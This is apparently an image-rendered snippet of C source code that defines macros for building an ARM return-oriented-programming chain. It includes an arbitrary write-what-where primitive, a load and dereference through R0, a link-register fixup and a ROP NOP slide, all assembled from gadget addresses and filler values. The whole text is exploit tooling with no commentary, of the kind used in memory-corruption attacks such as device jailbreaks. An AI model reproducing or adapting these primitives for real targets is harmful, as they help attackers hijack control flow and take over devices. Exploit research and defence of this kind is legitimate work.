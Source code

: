 #define WriteWhatWhere(push,what, where)\
push = (uint32_t)pop_r0r1r3r4r7pc;\
push = (uint32_t)what;\
push = (uint32_t)0x11111111;\
push = (uint32_t)0x22222222;\
push = ((uint32_t)where) - 8;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)pop_r4r7pc;\
push = ((uint32_t)where) - 8;\
push = (uint32_t)m_m_scratch;\
push = (uint32_t)str_r0_r4_8_pop_r4r7pc;\
push = (uint32_t)0x44444444;\
push = (uint32_t)m_m_scratch
    
#define LoadIntoR0(push, where)\
push = (uint32_t)pop_r0r1r3r4r7pc;\
push = (uint32_t)where - 8;\
push = (uint32_t)0x11111111;\
push = (uint32_t)0x22222222;\
push = (uint32_t)0x44444444; \
push = (uint32_t)0x55555555; \
push = (uint32_t)ldr_r0_r0_8_pop_r7pc;\
push = (uint32_t)m_m_scratch
    
#define DerefR0(push)\
push = pop_r2pc;\
push = -8;\
push = add_r0_r2_pop_r4r5r7pc;\
push = 0x44444444;\
push = 0x45454545;\
push = 0x47474747;\
push = (uint32_t)ldr_r0_r0_8_pop_r7pc;\
push = (uint32_t)m_m_scratch
    
#define RopFixupLR(push) \
push = (uint32_t)pop_r0r1r2r3r5r7pc;\
push = (uint32_t)0x40404040; \
push = (uint32_t)0x41414141; \
push = (uint32_t)pop_r2pc; \
push = (uint32_t)0x43434343; \
push = (uint32_t)0x45454545; \
push = (uint32_t)(m_m_scratch); \
push = (uint32_t)bx_r2_add_sp_40_pop_r8r10r11r4r5r6r7pc;\
push = (uint32_t)0x22222222;\

#define RopNopSlide(push) \
push = (uint32_t)pop_r7pc;\
push = (uint32_t)pop_r4r7pc;\
push = (uint32_t)pop_r7pc;\
push = (uint32_t)pop_r4r7pc;\
push = (uint32_t)pop_r7pc;\
push = (uint32_t)pop_r4r7pc;\
push = (uint32_t)pop_r7pc;\
push = (uint32_t)pop_r4r7pc;\
push = (uint32_t)pop_r7pc;\
push = (uint32_t)pop_r4r7pc;\
push = (uint32_t)pop_r7pc;\
push = (uint32_t)pop_r4r7pc;\
push = (uint32_t)pop_r7pc;\
push = (uint32_t)pop_r4r7pc
    